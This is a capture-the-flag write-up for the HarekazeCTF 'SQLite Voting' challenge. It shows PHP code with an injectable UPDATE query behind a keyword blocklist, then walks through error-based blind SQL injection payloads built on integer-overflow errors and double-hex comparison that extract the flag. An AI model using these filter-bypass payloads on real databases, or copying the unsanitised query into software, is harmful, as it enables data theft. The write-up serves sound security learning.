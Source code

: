 # SQLite Voting

```php
function is_valid($str) {
  $banword = [
    // dangerous chars
    // " % ' * + / < = > \ _ ` ~ -
    "[\"%'*+\\/<=>\\\\_`~-]",
    // whitespace chars
    '\s',
    // dangerous functions
    'blob', 'load_extension', 'char', 'unicode',
    '(in|sub)str', '[lr]trim', 'like', 'glob', 'match', 'regexp',
    'in', 'limit', 'order', 'union', 'join'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

// request to SQLite db, I skipped is_valid($id)
$res = $pdo->query("UPDATE vote SET count = count + 1 WHERE id = ${id}"); 
if ($res === false) {
  die(json_encode(['error' => 'An error occurred while updating database']));
}
```

We can see that we've got a heavily filtered error-based blind sql injection.

## Solution

First we got the length of the flag by enumerating through `$LENGTH$` in the following payload:

```sql
abs(ifnull(nullif(length((SELECT(flag)from(flag))),$LENGTH$),0x8000000000000000))
```

I will explain the payload bit-by-bit later, but the flag was 38 characters long.

Then, we double hexed the `flag` so we can be sure that it only produces digits

```sh
sqlite> select hex('0123456789ABCDEF');
30313233343536373839414243444546
```

We also know that the length of the produced number is exactly 152-digit long.

You cannot pass integers bigger than `9223372036854775807` because they will get cast into floating numbers, but you can concatenate them as they were strings, e.g. `9223372036854775807||9223372036854775807` will produce `92233720368547758079223372036854775807`. Thanks to this property we now can iterate over all composited 152-digit long `$NUMBER$` and use the `max(A, B)` function which will return the bigger one.

```sql
abs(ifnull(nullif(max(hex(hex((SELECT(flag)from(flag)))),$NUMBER$),$NUMBER$),0x8000000000000000))
```

We get the double hexed flag which is: 
`343836313732363536423631374136353433353434363742333433313644354633373330354636323333354633343546333537313643333133373333354636443334333533373333373237430`

**HarekazeCTF{41m_70_b3_4_5ql173_m4573r|**

**Explaination**:
- `abs(-9223372036854775808)` will cause integer overflow and hence throw an error
- `0x8000000000000000` is hex-encoded `-9223372036854775808`
- `nullif(A,B)` will return `NULL` if `A` equals `B`, returns `A` otherwise
- `ifnull(A,0x8000000000000000)` will return `0x8000000000000000` if `A` is `NULL`, otherwise `A` is returned.
- `max(A,B)` returns lexicographically greater string.
- `hex(hex(flag)` "removes" all non-digit characters from flag
